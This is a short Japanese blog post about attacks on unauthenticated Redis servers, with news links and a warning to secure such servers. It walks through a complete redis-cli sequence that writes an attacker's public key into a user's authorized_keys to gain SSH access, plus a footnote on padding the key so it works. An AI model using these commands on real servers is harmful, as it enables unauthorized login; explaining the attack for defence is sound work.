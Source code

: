 title: Redisで任意のファイルをアップロードする攻撃
date: 2016-03-07 20:41:31
tags: [honeypot, nosqlpot, redis]
---

年末年始からRedisを狙った攻撃が増加しているようです.  

* [「Redis」狙う不正アクセスが年末年始に急増 Security NEXT](http://www.security-next.com/065845)  
* [NoSQLデータベースであるRedisを標的としたアクセスについて 警察庁セキュリティポータルサイト@police](https://www.npa.go.jp/cyberpolice/topics/?seq=17577)
* [「Redis」の脆弱性を狙いファイルのアップロードを試すアクセスを観測（警察庁）](http://scan.netsecurity.ne.jp/article/2016/01/14/37930.html)

要約すると外部から任意のファイルをアップロードができるため, authorized_keysなどに攻撃者の公開鍵が作成されてしまいます.  

攻撃の例を以下に示します.  
redis-serverがuserというユーザーの権限で動いているとします.  
まず, userのauthorized_keysには何も含まれていません.  
```
user@66ac36057198:~/.ssh$ cat authorized_keys 
```

まず, 攻撃者は既に格納されているキーとバリューをクリアします.  
その後, 自身の公開鍵を適当なキー(ここではpwnというキー)で保存します.  
そしてデータを書き出すディレクトリ(/home/user/.ssh/)を設定し, ファイル名をauthorized_keysとします.  
最後にデータを書き出します. [1]

```
$ redis-cli -h 172.17.0.2 flushall
$ cat id_rsa.pub| redis-cli -h 172.17.0.2 -x set pwn
$ redis-cli -h 172.17.0.2
172.17.0.2:6379> config set dir "/home/user/.ssh"
OK
172.17.0.2:6379> config get dir
1) "dir"
2) "/home/user/.ssh"
172.17.0.2:6379> config set dbfilename "authorized_keys"
OK
172.17.0.2:6379> save
OK
```

これでuserのauthorized_keysには攻撃者の公開鍵が追加され, SSHでのログインを許してしまうことになります.  
```
user@66ac36057198:~/.ssh$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIUgAzqX0... mrtc0@localhost
```

もちろん, redis-serverを動かしているユーザーが書き込める権限がなければいけませんが.  

インターネットに公開した状態で認証をかけず, 適切な権限で動かしていないと大変なことになりますので注意が必要です.  

##### 参考文献

* [crack@redis.io #2](https://cocopoo.com/2015/11/crackredis-io-2/)
* [A few things about Redis security](https://www.reddit.com/r/redis/comments/3rby8c/a_few_things_about_redis_security/)

[1]: 実際はゴミデータも含まれるため (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") のようにして改行を挟む必要がある.




